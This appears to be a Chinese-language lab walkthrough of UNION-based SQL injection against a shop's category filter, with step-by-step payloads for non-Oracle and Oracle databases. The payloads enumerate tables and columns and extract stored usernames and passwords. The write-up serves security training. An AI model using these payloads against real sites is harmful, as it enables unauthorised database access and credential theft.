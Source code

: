 
### Listing the contents of the database(非Oracle)

找出所有的表名：
```
/filter?category=Gifts'+UNION+SELECT+null,TABLE_NAME+FROM+information_schema.tables--+
```
在结果中查找users，找到一个可疑的表：
users_cusczd


现在知道可疑的表了，但是不知道它有哪些字段。只能猜测。
找出users_cusczd这个表的username字段：
```
/filter?category=Gifts'+UNION+SELECT+null,(SELECT+COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name='users_cusczd'+and+COLUMN_NAME+like+'user%')--+
```
username_ugawcz

找出password字段
```
/filter?category=Gifts'+UNION+SELECT+null,(SELECT+COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name='users_cusczd'+and+COLUMN_NAME+like+'pass%')--+
```
password_ooewrz


现在查用户名密码：
```
select username_ugawcz,password_ooewrz from users_cusczd limit 1;
```
最终payload：
```
/filter?category=Gifts'+UNION+SELECT+username_ugawcz,password_ooewrz+FROM+users_cusczd--+
```


### Oracle
查出所有table，以及其owner：
```
/filter?category=Pets'+UNION+SELECT+owner,table_name+from+all_tables--+
```
在结果中找到一个表名：USERS_SOPHSG
然后找这个表的字段：
```
/filter?category=Pets'+UNION+SELECT+null,column_name+from+all_tab_columns+where+table_name='USERS_SOPHSG'--+
```
得到两个字段：
```
PASSWORD_TSXMFO
USERNAME_XEZYZA
```
然后查询用户密码：
```
select USERNAME_XEZYZA,PASSWORD_TSXMFO from USERS_SOPHSG;
```
